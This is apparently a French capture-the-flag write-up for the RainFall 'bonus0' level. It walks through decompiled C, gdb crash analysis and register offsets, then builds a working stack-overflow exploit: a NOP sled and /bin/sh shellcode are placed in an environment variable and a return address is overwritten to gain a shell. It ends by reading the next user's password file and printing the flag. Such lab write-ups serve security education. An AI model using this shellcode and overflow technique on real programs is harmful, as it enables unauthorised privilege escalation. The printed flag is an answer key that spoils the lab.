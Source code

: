 Read also: [./Resources/README.md](./Resources/README.md)

# Source

https://dogbolt.org/?id=e155fda2-581f-4305-ad94-25b044fdefd5

```c
void p(char *param_1,char *param_2)
{
  char *pcVar1;
  char local_100c [4104];
 
  puts(param_2);
  read(0,local_100c,0x1000);
  pcVar1 = strchr(local_100c,10);
  *pcVar1 = '\0';
  strncpy(param_1,local_100c,0x14);
  return;
}

void pp(char *param_1)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  byte bVar4;
  char local_34 [20];
  char local_20 [20];
 
  bVar4 = 0;
  p(local_34, " - ");
  p(local_20, " - ");
  strcpy(param_1,local_34);
  uVar2 = 0xffffffff;
  pcVar3 = param_1;
  do {
	if (uVar2 == 0) break;
	uVar2 = uVar2 - 1;
	cVar1 = *pcVar3;
	pcVar3 = pcVar3 + (uint)bVar4 * -2 + 1;
  } while (cVar1 != '\0');
  *(char *)(param_1 + (~uVar2 - 1)) = ' ';
  strcat(param_1,local_20);
  return;
}

int main(void)
{
  char local_3a [54];
 
  pp(local_3a);
  puts(local_3a);
  return 0;
}
```

# Explication

Pour trouver on teste les overflows:

```
(gdb) run
Starting program: /home/user/bonus0/bonus0
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
 -
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa��� aaaaaaaaaaaaaaaaaaaa���

Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
```

On va utiliser `([cmd1];[cmd2]) | ./bonus0` pour remplir les deux entrées stdin du programme.
(merci: https://stackoverflow.com/a/78919339/)

Après avoir testé plein de chose, j’ai découvert (`info registers`, je ne connaissais pas), on
n’est pas obligé de comprendre tout le code du programme cible avec cette méthode.
(C’est donc un gain de temps énorme).

La première étape va être de faire segfault le programme, une fois que le programme à segfault
on affiche info registers (alas `i r`), $ebp indique la position dans la mémoire du code exécuté
donc on va glisser une adresse dans l’adresse `0xbffff230` qui est le 13eme caractère d’`$ebp`, vu
que le code s'exécute donc le sens inverse du stockage des variables, on écrit du 9eme au 13eme
caractère.

```
(gdb) run < <(python -c 'print("a" * 20)'; python -c 'print("c" + "b" * 20)')
[...]
aaaaaaaaaaaaaaaaaaaacbbbbbbbbbbbbbbbbbbb��� cbbbbbbbbbbbbbbbbbbb���

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) i r
eax         0x0 0
ecx         0xffffffff  -1
edx         0xb7fd28b8  -1208145736
ebx         0xb7fd0ff4  -1208152076
esp         0xbffff230  0xbffff230
ebp         0x62626262  0x62626262
esi         0x0 0
edi         0x0 0
eip         0x62626262  0x62626262
eflags      0x210282  [ SF IF RF ID ]
cs          0x73  115
ss          0x7b  123
ds          0x7b  123
es          0x7b  123
fs          0x0 0
gs          0x33  51
(gdb) x/40xb 0xbffff200
0xbffff200: 0x61  0x61  0x61  0x61  0x61  0x61  0x61  0x61
0xbffff208: 0x61  0x61  0x63  0x62  0x62  0x62  0x62  0x62
0xbffff210: 0x62  0x62  0x62  0x62  0x62  0x62  0x62  0x62
0xbffff218: 0x62  0x62  0x62  0x62  0x62  0x62  0xf4  0x0f
0xbffff220: 0xfd  0xb7  0x20  0x63  0x62  0x62  0x62  0x62
            ^^^^    <<<---  13 --->>>
(gdb)
0xbffff228: 0x62  0x62  0x62  0x62  0x62  0x62  0x62  0x62
      vvvv
0xbffff230: 0x62  0x62  0x62  0x62  0x62  0x62  0x62  0xf4
0xbffff238: 0x0f  0xfd  0xb7  0x00  0x58  0xc8  0xfd  0xb7
0xbffff240: 0x00  0x00  0x00  0x00  0x1c  0xf2  0xff  0xbf
0xbffff248: 0xcc  0xf2  0xff  0xbf  0x00  0x00  0x00  0x00
(gdb)
```

Je n’ai pas complémentement fouillé la raison du SEGFAULT mais on semble avoir pourri les registres (créés un décalage)
en écrivant là il ne fallait pas. J’ai essayé de jouer les détective c’est vers là : 

```
(gdb) disas pp
Dump of assembler code for function pp:
[...]
   0x08048582 <+100>: add 0x8(%ebp),%eax
   0x08048585 <+103>: movzwl (%ebx),%edx
   0x08048588 <+106>: mov %dx,(%eax)
   0x0804858b <+109>: lea -0x1c(%ebp),%eax
   0x0804858e <+112>: mov %eax,0x4(%esp)
   0x08048592 <+116>: mov 0x8(%ebp),%eax
   0x08048595 <+119>: mov %eax,(%esp)
```

Dans le code décompilé :

```
void pp(char *param_1) {
  [...]
  do {
    [...]
  } while (cVar1 != '\0');
  *(char *)(param_1 + (~uVar2 - 1)) = ' ';
```

Si je dois donner une raison, mes recherches me font penser que c’est au moment où on ajoute un espace que le registre a été pourri.

DONC pour l’exploit :

**Méthode avec shellcode :**

(On garde le même shellcode que les précédents niveaux https://www.exploit-db.com/exploits/13357, on ne change pas une équipe qui gagne)

```
export ICE=$(python -c 'print "\x90" * 1000 + "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80";')
```

L'adresse de la variable ICE :

```
0xbffffbab:   "ICE=\220\220\220\220
0xbffffbab + 500 = 0xbffffd9f
```
Donc `0xbffffd9f` => `\x9f\xfd\xff\xbf`

```
(gdb) run < <(python -c 'print("a" * 20)'; python -c 'print("c" * 9 + "\x9f\xfd\xff\xbf" + "b" * 7)')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print("a" * 20)'; python -c 'print("c" * 9 + "\x9f\xfd\xff\xbf" + "b" * 7)')
 -
 -
aaaaaaaaaaaaaaaaaaaaccccccccc����bbbbbbb��� ccccccccc����bbbbbbb���
process 4171 is executing new program: /bin/dash
```

Voila :

```
bonus0@RainFall:~$ (python -c 'print "a" * 20'; python -c 'print "c" * 9 + "\x9f\xfd\xff\xbf" + "b" * 7') | ./bonus0
[...]
aaaaaaaaaaaaaaaaaaaaccccccccc����bbbbbbb��� ccccccccc����bbbbbbb���
$ whoami
bonus1
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

Le flag est donc : 

```
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
